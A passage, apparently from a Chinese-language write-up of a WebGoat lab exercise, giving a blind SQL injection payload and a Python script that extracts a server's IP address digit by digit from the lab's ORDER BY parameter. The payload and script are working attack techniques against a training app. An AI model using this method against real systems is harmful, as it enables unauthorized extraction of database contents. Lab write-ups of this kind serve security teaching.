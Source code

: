 
2. 用substring来取特定位置的数字，要注入的内容为  
```
(case+when+(substring((select+ip+from+servers+where+hostname='webgoat-prd'),{i},1)='{j}')+then+id+else+hostname+end)--+
```  
url编码中加号是空格，sql中注释必须空一格，所以最后也要加号  

3. 编写脚本  
```python  
import requests


url="http://192.168.88.1:8080/WebGoat/SqlInjectionMitigations/servers"
header={"Cookie":"JSESSIONID=cF6vfzOwxdghxONlL0NwaTB3n_rDsWI3y2YooCTy","Accept-Language":"zh-CN,zh;q=0.9","Accept-Encoding":"gzip, deflate","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36","Accept":"*/*"}

t=""

for i in range(0,4):
    for j in range(0,10):
        getdata=f"(case+when+(substring((select+ip+from+servers+where+hostname='webgoat-prd'),{i},1)='{j}')+then+id+else+hostname+end)--+"
        res=requests.get(f"{url}?column={getdata}",headers=header)
        t=res.text
        if(t[14]=="1"):
            print(j,end="")


```  
![alt text](image-11.png)  